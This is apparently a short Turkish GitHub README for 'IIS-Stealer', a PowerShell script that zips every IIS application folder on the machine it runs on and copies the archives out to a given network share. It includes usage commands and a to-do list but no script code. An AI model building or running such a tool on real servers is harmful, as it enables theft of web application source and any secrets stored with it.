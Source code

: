 # IIS-Stealer

Çalıştığı sistemde bulunan IIS içindeki tüm uygulamaların klasörlerini zipleyip dışarıya atan kod parçacığı.

## Kullanımı

```
./srealer.ps1 ZIPLENEN-DOSYALARIN-KOPYALANACAGI-DIZIN ZIP-DOSYA_ADININ-ONADI

./stealer.ps1 \\LOCAL\paylasim prefix[optional]```

## Yapılacaklar Listesi

* Hedef sistemin diski "zip" oluşturmaya yetecek kadar boş alana sahipliğinin kontrolü
* Diğer IIS uygulamaları aynı dizini paylaşıyorsa, EN üst dizin zaten altındaki uygulamaları kapsadığından çalışma süresi uzuyor.
